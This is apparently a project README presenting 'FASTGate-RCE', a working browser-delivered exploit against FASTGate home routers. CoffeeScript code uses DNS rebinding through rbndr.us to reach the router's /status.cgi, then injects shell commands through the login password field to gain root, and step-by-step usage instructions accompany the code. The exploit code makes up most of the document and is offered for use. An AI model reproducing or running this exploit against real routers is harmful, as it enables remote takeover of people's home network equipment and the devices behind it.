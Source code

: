 ```yaml
---
title: FASTGate-RCE
description: Abusing DNS to exploit a command injection and obtain root
layout: default
---
```


This is the combination of already available exploit and attack techniques.


Serve the exploit as the index of a local webserver.
Craft a tailored `payload.shell` to verify the execution.
Open a web browser and visit `7f000001.c0a801fe.rbndr.us`
(switch between localhost and 192.168.1.254).

```coffeescript

ajax = (url, params, hdrs) ->
  try
    req = new XMLHttpRequest

    qs = new URLSearchParams
    if params
      `for (const [key, val] of Object.entries(params)) {
        qs.append(key, val);
      }`
      url += "?#{qs.toString()}"

    req.open 'GET', url, 0
    req.setRequestHeader 'X-Requested-With', 'XMLHttpRequest'
    req.setRequestHeader 'Content-type', 'application/x-www-form-urlencoded'
    if hdrs
      `for (const [key, val] of Object.entries(hdrs)) {
        req.setRequestHeader(key, val);
      }`

    req.send()
    if req.status == 200
      req.responseText
    else
      null

  catch
    null

random_string = (len) ->
  ascii_letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
  digits = '0123456789'
  letters = ascii_letters + digits
  result = ''
  for i in [0...len]
    result += letters.charAt Math.random() * letters.length
  return result

exploit = (cmd, token) ->
  params = {
    '_': "#{Math.round (new Date).getTime() / 1000}pytester#{random_string 12}",
    'sessionKey': 'NULL',
    'cmd': '3',
    'nvget': 'login_confirm',
    'username': random_string(4),
    'password': "'; #{cmd} ; #"
  }
  hdrs = {
    'X-XSRF-TOKEN': token,
    'DNT': '1',
    'Cookie': document.cookie
  }
  ajax '/status.cgi', params, hdrs

isthisyou = ->
  ajax '/status.cgi', {
    '_': "#{Math.round Date.getTime / 1000}pytester#{random_string 12}"
  }

class @Payload
  set = ->
    this.code = ajax '/payload.shell' if !isthisyou()
    return
  hasnot = ->
    !this.code?
  get = ->
    this.code

mp = new Payload
mp.set() while mp.hasnot()
token = Math.round Math.random * 100000000000
document.cookie = "XSRF-TOKEN=#{token}"
while true
  if isthisyou()
    exploit mp.get(), token
    break

```


Nothing prevents remote exploitation, root is gained.
Shell shoveling and verification is voluntarily omitted.

## Links

- http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html
- https://www.exploit-db.com/exploits/44606/
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122
- https://github.com/taviso/rbndr
- https://github.com/Depau/fastgate-python
- https://github.com/Nimayer/fastgate-toolkit